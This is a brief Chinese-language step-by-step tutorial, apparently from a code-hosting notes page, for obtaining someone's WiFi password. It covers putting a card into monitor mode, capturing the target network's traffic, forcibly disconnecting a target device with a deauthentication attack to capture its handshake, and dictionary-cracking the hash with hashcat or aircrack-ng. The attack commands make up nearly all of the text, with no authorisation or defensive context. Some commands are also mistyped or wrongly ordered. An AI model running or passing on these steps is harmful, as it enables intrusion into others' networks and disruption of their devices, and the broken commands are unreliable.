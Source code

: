 # 通过握手包获取 WiFi 密码

1. 查看網絡設備, 獲取無線網卡名稱.

   ```bash
   iwconfig
   ```

2. 開啓無線網卡監聽模式.

   ```bash
   sudo airmon-ng start wlan0
   ```

   開啓監聽模式後, 無線網卡名稱發生改變.  後面會附加`mon`(monitor), 即`wlan0mon`.
   **注意**: 監聽模式開啓後的無線網卡將無法訪問 Internet, 直到監聽模式被關閉.

3. 監聽 WiFi 信號.

   ```bash
   sudo airodunp-ng wlan0mon
   ```
   
   當發現目標 WiFi 時按`Ctrl+C`停止掃描. 並記錄 BSSID 和 CH 兩個參數.

4. 捕獲指定 WiFi 通信內容.

   ```bash
   sudo airodump-ng -w [.cap存檔名稱] -c [CH] --bssid [BSSID] wlan0mon
   ```

5. 斷開指定設備與指定 WiFi 的鏈接.

   ```bash
   sudo aireplay-ng -0 5 -a [BSSID] -c [Target MAC] wlan0mon
   ```

   目標設備從指定 WiFi 斷開鏈接後將嘗試衝連, 會向路由器發送握手包. 而第4步將會捕獲這個握手包.

6. 當第4步提示捕獲握手包時按下`Ctrl+C`結束監聽.

   此時, 握手包的數據已經被記錄在第4步指定的`.cap`文件中.

7. 對`.cap`文件中握手包的hash進行破解.

   - 使用 Hashcat. (推薦)

      ```bash
      aircrack-ng [.cap存檔文件] -j [.haccpx文件]   # 將 .cap 文件轉爲 hashcat 接受的 .haccpx 文件
      hashcat -m 2500 -a 0 [.hccapx文件] [字典文件] # 利用 hashcat 進行破解
      ```

   - 使用 aircrack-ng.

      ```bash
      aircrack-ng -w [.cap存檔文件] [字典文件]
      ```

8. 關閉無線網卡監聽模式.

   ```bash
   sudo airmon-ng stop wlan0mon
   ```
